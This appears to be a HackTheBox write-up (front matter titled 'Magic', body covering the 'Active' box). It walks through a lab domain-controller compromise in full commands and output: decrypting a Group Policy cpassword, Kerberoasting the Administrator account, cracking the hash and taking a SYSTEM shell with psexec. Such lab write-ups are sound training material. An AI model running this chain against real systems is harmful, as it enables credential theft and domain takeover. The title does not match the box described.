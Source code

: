 ```yaml
---
title: "HTB: Magic Write-up"
date: 2021-05-17 00:00:00 -0000
categories:
  - HTB
tags:
  - HTB
  - windows
  - active directory
---
```


Going back to Windows for my next challenge box from TJNull's [list of OSCP-like HackTheBox machines][htb-list]. "Active" is a Windows machine which involves some Active Directory based exploitation.

## Enumeration

For a change of pace, I decided to do this box without using AutoRecon. Instead, I started the old fashioned way with an `nmap` scan.

```bash
nmap -p- -T4 -sSV -oA active -v 10.10.10.100 --version-all
```

Looking at the `nmap` results, it seems like this is a Windows Domain Controller.

```txt
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-05-20 23:10:37Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49169/tcp open  msrpc         Microsoft Windows RPC
49171/tcp open  msrpc         Microsoft Windows RPC
49182/tcp open  msrpc         Microsoft Windows RPC
```

### SMB Spelunking

Lets begin by enumerating SMB. One of my favorite tools for enumerating SMB shares is [smbmap], which I used to enumerate all available shares. I ended up getting burned by this tool however, because I didn't RTFM carefully enough. I ran the following command.

```bash
smbmap -R -H 10.10.10.100
```

Which gave me the following output.

```txt
[+] IP: 10.10.10.100:445 Name: 10.10.10.100
        Disk                                                   Permissions Comment
 ----                                                   ----------- -------
 ADMIN$                                             NO ACCESS Remote Admin
 C$                                                 NO ACCESS Default share
 IPC$                                               NO ACCESS Remote IPC
 NETLOGON                                           NO ACCESS Logon server share
 Replication                                        READ ONLY
 .\Replication\*
 dr--r--r--                0 Sat Jul 21 06:37:44 2018 .
 dr--r--r--                0 Sat Jul 21 06:37:44 2018 ..
 dr--r--r--                0 Sat Jul 21 06:37:44 2018 active.htb
 .\Replication\active.htb\*
 dr--r--r--                0 Sat Jul 21 06:37:44 2018 .
 dr--r--r--                0 Sat Jul 21 06:37:44 2018 ..
 ...
```

I assumed that this output showed a complete coverage of what was contained in this share, but it turns out that it was actually missing the critical file for progressing forward. By default, the `smbmap` tool only recurses 5 levels deep into the directory structure, while the file that I was looking for was 6 levels deep. This setting can be changed with the `--depth` flag, which I used when I ran `smbmap` again (after a few hours of spinning my wheels).

```bash
$ smbmap -R -H 10.10.10.100 --depth 20
...
.\Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\*
 dr--r--r--                0 Sat Jul 21 06:37:44 2018 .
 dr--r--r--                0 Sat Jul 21 06:37:44 2018 ..
 fr--r--r--              533 Sat Jul 21 06:38:11 2018 Groups.xml
```

The second run uncovered a few interesting files, including this Groups.xml file, which contains what appears to be user credentials.

### Groups.xml

```xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```

After some googling, it looks like these "cpassword" files just contain [an AES encrypted version of the user's password][cpass], and Micro$oft was even kind enough to publish the key to decrypt them! I found a python-based tool online that can decrypt these files using the published MS key, so I tried it against the Groups.xml file.

```bash
$ python3 gpp-decrypt.py -f ~/HTB/active/loot/Groups.xml
...
[ * ] Username: active.htb\SVC_TGS
[ * ] Password: GPPstillStandingStrong2k18
```

Looks like we got some credentials! Lets use [crackmapexec][cme] to verify that these creds work.

```bash
$ cme smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' -d active.htb
SMB         10.10.10.100    445    DC               [*] Windows 6.1 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.100    445    DC               [+] active.htb\SVC_TGS:GPPstillStandingStrong2k18
```

## Active Directory Exploitation

Now that `cme` has validated the creds, its time to do some Active Directory enumeration.The very first thing that I do when I get valid Active Directory user credentials is running [Bloodhound][BloodHound] to harvest the target's AD environment. I like using fox-it's [python-based Bloodhound ingestor][bloodhound.py] because I can run it from my Kali instance instead of on a target machine.

```bash
bloodhound-python -u SVC_TGS -p "GPPstillStandingStrong2k18" -d active.htb -c All -dc active.htb -ns 10.10.10.100 --zip
```

We can toss the output files from this into bloodhound, then start doing some queries. One of the first queries I like to run "Shortest Paths from Kerboroastable Users" which looks for paths to high value targets starting from Kerboroastable users.

![Bloodhound Output](/assets/images/HTB/active/bloodhound.png)

It looks like the "Administrator" account is both a local admin on active.htb, *and* is Kerboroastable.

### And so we Kerboroast

Kerboroasting is an attack that exploits the underlying functionality of the Kerberos authentication system. People much smarter than I have done a much better job explaining it, so I would encourage you to do some googling if you haven't heard about it before :). We can use the "GetUserSPNs" script from impacket to retrieve the password hashes of all kerboroastable users in a format that `john` can easily ingest.

```bash
$ impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -target-domain active.htb -request -outputfile kerb.hashes -dc-ip 10.10.10.100
Impacket v0.9.23.dev1+20210127.141011.3673c588 - Copyright 2020 SecureAuth Corporation

ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon
--------------------  -------------  --------------------------------------------------------  --------------------------  -------------------------- 
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 15:06:40.351723  2021-01-21 11:07:03.723783
```

```bash
$ john --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt kerb.hashes
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Ticketmaster1968 (?)
1g 0:00:00:08 DONE (2021-05-20 20:00) 0.1122g/s 1182Kp/s 1182Kc/s 1182KC/s Tiffani143..Thurlow
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

The hash cracked, which means we should have the credentials for the local admin on `active.htb`. Again, I'll use `cme` to verify the creds.

```bash
$ cme smb 10.10.10.100 -u 'Administrator' -p 'Ticketmaster1968' -d active.htb
SMB         10.10.10.100    445    DC               [*] Windows 6.1 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.100    445    DC               [+] active.htb\Administrator:Ticketmaster1968 (Pwn3d!)
```

### Shell or Go Home

Pwn3d indeed. I could use `smbclient` to just retrieve the `user.txt` and `root.txt` flags, but I want to use these boxes as preparation for the OSCP, so its shell or bust. Impacket's "PSExec" script can be used to get a shell on a host when you have valid credentials.

```bash
$ impacket-psexec active.htb/Administrator:Ticketmaster1968@10.10.10.100 -dc-ip 10.10.10.100                                                                                                          1 ⨯
Impacket v0.9.23.dev1+20210127.141011.3673c588 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.100.....
[*] Found writable share ADMIN$
[*] Uploading file voslUSDJ.exe
[*] Opening SVCManager on 10.10.10.100.....
[*] Creating service oAyk on 10.10.10.100.....
[*] Starting service oAyk.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

Thanks for reading!

[htb-list]: https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=1839402159
[autorecon]: https://github.com/Tib3rius/AutoRecon
[bad-keys]: https://github.com/rapid7/ssh-badkeys
[linpeas]: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
[tty-shell]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#spawn-tty-shell
[smbmap]: https://github.com/ShawnDEvans/smbmap
[cpass]: https://adsecurity.org/?p=2288
[Bloodhound]: https://github.com/BloodHoundAD/BloodHound
[Bloodhound.py]: https://github.com/fox-it/BloodHound.py
[cme]: https://github.com/byt3bl33d3r/CrackMapExec
